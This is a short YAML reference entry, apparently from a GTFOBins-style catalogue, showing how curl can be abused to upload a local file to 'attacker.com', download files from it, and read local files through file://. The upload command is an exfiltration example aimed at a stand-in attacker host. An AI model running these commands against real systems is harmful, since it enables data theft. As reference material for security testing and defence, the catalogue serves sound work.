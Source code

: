 ```yaml
---
functions:
  upload:
  - description: Send local file with an HTTP POST request. Run an HTTP service on
      the attacker box to collect the file.
    code: |
      URL=http://attacker.com/
      LFILE=file_to_send
      curl -X POST -d @$file_to_send $URL
  download:
  - description: Fetch a remote file via HTTP GET request.
    code: |
      URL=http://attacker.com/file_to_get
      LFILE=file_to_save
      curl $URL -o $LFILE
  file-read:
  - description: The file path must be absolute.
    code: |
      LFILE=/tmp/file_to_read
      curl file://$LFILE
---
```

